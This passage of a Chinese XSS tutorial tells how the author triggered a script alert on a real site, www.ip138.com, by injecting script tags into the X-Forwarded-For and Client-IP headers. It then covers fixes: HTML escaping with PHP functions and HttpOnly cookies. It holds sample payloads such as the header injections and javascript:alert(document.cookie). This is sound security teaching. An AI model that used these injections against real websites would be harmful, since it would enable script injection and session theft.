成功弹窗了。因为我当时在`X-Forwarded-For Header`里配置的是`<script>alert("xss")</script>`；而在`Modify Headers`里面没有配置`X-Forwarded-For函数`，只配置了`Client-IP函数`，值为`<script>alert("xss2")</script>`。也就是说[www.ip138.com](https://link.zhihu.com/?target=http%3A//ip138.com/)当时使用的是`X_FORWARDED_FOR函数`来获取IP的。

现在在去尝试已经不行了，估计已经修改了吧。

#### 6.1.3.1.使用前提

1.服务器要有获取你的ip的需求，不然不会触发。

2.即使有获取你的ip的需求，也要使用那几个指定函数来获取。

3.没有过滤。像DZ等著名CMS不存在，他们都过滤了。

# 7.修复

XSS漏洞最终形成的原因是对输入与输出没有严格的过滤，在页面执行JavaScript等客户端脚本，这就意味着只要将敏感字符过滤，即可修补XSS漏洞。但是这个过程是十分复杂的，很多情况下无法识别哪些是正常的字符，哪些是非正常的字符。

## 7.1.输入与输出

在HTML中，`<`、`>`、`"`、`'`、`&`都有比较特殊的意义，因为HTML标签、属性就是由这几个符号组成的。如果直接输出这几个特殊字符，极有可能破坏整个HTML文档的结构。所以，一般情况下，XSS将这些特殊字符转义。

在PHP中提供了`htmlentities()`、`htmlspecialchars()`函数可以把一些预定义的字符转换为HTML实体。

预定义的字符有这些：

1.`&`(和号)成为`&amp`；

2.`"`(双引号)成为`&quot`;

3.`'`(单引号)成为`&#039`;

4.`<`(小于)成为`&lt`；

5.`>`(大于)成为`&gt`。

当字符传经过这类函数处理后，敏感字符将会被一 一转义。

## 7.2.HttpOnly

严格地说，`HttpOnly`对防御XSS漏洞不起作用，它的主要目的是为了解决XSS漏洞后续的cookie劫持攻击。

`HttpOnly`是微软公司的Internet Explorer 6 SP1引入的一项新特性。这个特性为cookie提供了一个新的属性，用以阻止客户端脚本访问cookie。至今已经成为了一个标准，几乎所有的浏览器都会支持`HttpOnly`。

如何使用JavaScript获取cookie前面也有介绍和演示，我相信大家都会了，这里就不赘述了。一个服务器可能会向服务器端发送多条cookie，但是带有`HttpOnly`的cookie，JavaScript将不能获取。

这里举个例子：

比如我访问某网页，然后查看cookie，可以看到`ASP.NET_SessionId`字段后面有了`HttpOnly`

[](https://xzfile.aliyuncs.com/media/upload/picture/20210409212832-7a5ca4d0-9937-1.jpg)

这样就代表JavaScript将不能获取被`HttpOnly`标注的cookie值。清空浏览器地址栏，在其中输入`javascript:alert(document.cookie)`语句测试的话，在弹出的对话框中只有其它字段，就不会看到`ASP.NET_SessionId`字段，这就是`HttpOnly`的作用。

在身份标识字段使用`HttpOnly`可以有效地阻挡XSS会话劫持攻击，但却不能完全阻挡XSS攻击。因为XSS攻击手段很多：模拟用户“正常”操作、盗取用户信息、钓鱼等，仅靠`HttpOnly`是不够的，防御的关键还是要靠过滤输入与输出，要进行代码修复（自定义过滤，自带函数）。

# 8.总结

对于XSS漏洞，它的攻击手段的确很多，层出不穷的，但是其实都可以彻底解决，最关键的是要能够真正的掌控"输入与输出"。